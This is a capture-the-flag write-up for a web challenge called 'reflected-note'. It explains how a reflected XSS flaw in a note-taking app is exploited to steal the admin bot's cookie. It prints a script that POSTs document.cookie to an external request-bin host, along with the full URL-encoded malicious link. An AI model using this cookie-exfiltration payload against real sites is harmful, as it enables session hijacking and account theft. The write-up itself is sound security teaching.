




# reflected-note

## Description

> Check out my app. It's just a beta version, you can write notes and share them with me.

## Write-Up

As we enter the note taking app, we get a form that enables us to write a note, and another one to report it to the admin :



And from the title of the challenge and with our discovery process, let's try to test the app if it is vulnerable to **Reflected XSS** vulnerability by injecting this code in the note form :

```html
<script>alert("XSS")</script>
```



Indeed, this app is vulnerable to **Reflected XSS** vulnerability. And since we have an input to communicate with the admin, it will simulate then our victim user.

The first thing that comes to our mind when we have contact with admin infos is to try to recover his cookies. The idea is the try to make the admin execute a script that send out his cookies to another endpoint, a malicious one that we create. We can use [pipedream](
https://requestbin.com/?gclid=CjwKCAiAwc-dBhA7EiwAxPRylAwmJ8fcVmUnd_HmsAXrMjIQvxe3jGfjBTvv30BvnnVTW1_dyPE2kBoCL_cQAvD_BwE), which gives us a request bin where we can send the cookies to and recover them from there :



Using the `reflected XSS` vuln, we can inject a `fetch` POST call to our bin where we ask the admin to send its cookie. So the first thing is to generate the malicious link by creating a note :

```html
<script>
fetch("https://eok1p4dql4pp3y0.m.pipedream.net", {
    method: 'POST', // *GET, POST, PUT, DELETE, etc.
    mode: 'cors', // no-cors, *cors, same-origin
    cache: 'no-cache', // *default, no-cache, reload, force-cache, only-if-cached
    credentials: 'same-origin', // include, *same-origin, omit
    headers: {
      'Content-Type': 'application/json'
      // 'Content-Type': 'application/x-www-form-urlencoded',
    },
    redirect: 'follow', // manual, *follow, error
    referrerPolicy: 'no-referrer', // no-referrer, *no-referrer-when-downgrade, origin, origin-when-cross-origin, same-origin, strict-origin, strict-origin-when-cross-origin, unsafe-url
    body: JSON.stringify(document.cookie) // body data type must match "Content-Type" header
  });
</script>
```

So we get :

```
http://reflected-note.web-client.challs.ctf.shellmates.club/?note=%3Cscript%3E%0D%0Afetch%28%22https%3A%2F%2Feok1p4dql4pp3y0.m.pipedream.net%22%2C+%7B%0D%0A++++method%3A+%27POST%27%2C+%2F%2F+*GET%2C+POST%2C+PUT%2C+DELETE%2C+etc.%0D%0A++++mode%3A+%27cors%27%2C+%2F%2F+no-cors%2C+*cors%2C+same-origin%0D%0A++++cache%3A+%27no-cache%27%2C+%2F%2F+*default%2C+no-cache%2C+reload%2C+force-cache%2C+only-if-cached%0D%0A++++credentials%3A+%27same-origin%27%2C+%2F%2F+include%2C+*same-origin%2C+omit%0D%0A++++headers%3A+%7B%0D%0A++++++%27Content-Type%27%3A+%27application%2Fjson%27%0D%0A++++++%2F%2F+%27Content-Type%27%3A+%27application%2Fx-www-form-urlencoded%27%2C%0D%0A++++%7D%2C%0D%0A++++redirect%3A+%27follow%27%2C+%2F%2F+manual%2C+*follow%2C+error%0D%0A++++referrerPolicy%3A+%27no-referrer%27%2C+%2F%2F+no-referrer%2C+*no-referrer-when-downgrade%2C+origin%2C+origin-when-cross-origin%2C+same-origin%2C+strict-origin%2C+strict-origin-when-cross-origin%2C+unsafe-url%0D%0A++++body%3A+JSON.stringify%28document.cookie%29+%2F%2F+body+data+type+must+match+%22Content-Type%22+header%0D%0A++%7D%29%3B%0D%0A%3C%2Fscript%3E
```

After that, we report it to the admin, and then check our request bin :



we will find our flag in the body section.

## Flag


## More Information

 - XSS Attack : https://owasp.org/www-community/attacks/xss/
 - Reflected XSS : 
   - https://portswigger.net/web-security/cross-site-scripting/reflected
   - https://www.imperva.com/learn/application-security/reflected-xss-attacks/
 - Fetch API : https://developer.mozilla.org/en-US/docs/Web/API/Fetch_API/Using_Fetch
